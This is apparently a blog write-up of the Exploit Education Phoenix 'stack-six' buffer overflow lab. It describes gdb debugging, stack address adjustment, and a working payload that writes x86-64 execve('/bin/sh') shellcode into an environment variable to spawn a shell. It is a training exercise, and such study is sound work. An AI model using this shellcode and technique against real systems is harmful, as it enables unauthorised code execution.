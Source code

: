 Using the payload (same shell code as previous problem), successfully spawn a shell in gdb.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-gdb-success.png)

However the payload fails at command line.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-fail.png)

After using some tips in this [write-up](https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/), the same payload also fails in gdb.

> Quick tips:
- You can add these lines to ".gdbinit" file to adjust gdb addresses to be more realistic.
```shell
unset env LINES
unset env COLUMNS
set env _ /opt/phoenix/amd64/stack-six
```
- Keep the length of your exploit fixed every time to avoid shifting memory addresses (and to avoid the headache).

Setting breakpoint at `0x4007f7 <main+92> ret`, we can see that the address of `who` is at 0x7fffffffe578 instead of 0x7fffffffe568.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-new-stack.png)

payload: 
```shell
export ExploitEducation=$(python3 -c "import sys; shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'; sys.stdout.buffer.write(shellcode + b'\x70' * (200 - len(shellcode)))")
```

After adjusting the payload, it also works in command line, note that must run `/opt/phoenix/amd64/stack-six` to success, `./stack/six` will result in segmentation fault.

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-success.png)

![image]({{site.baseurl}}/assets/images/Exploit-Education-Phoenix-Stack/stack-six-wrong-executable.png)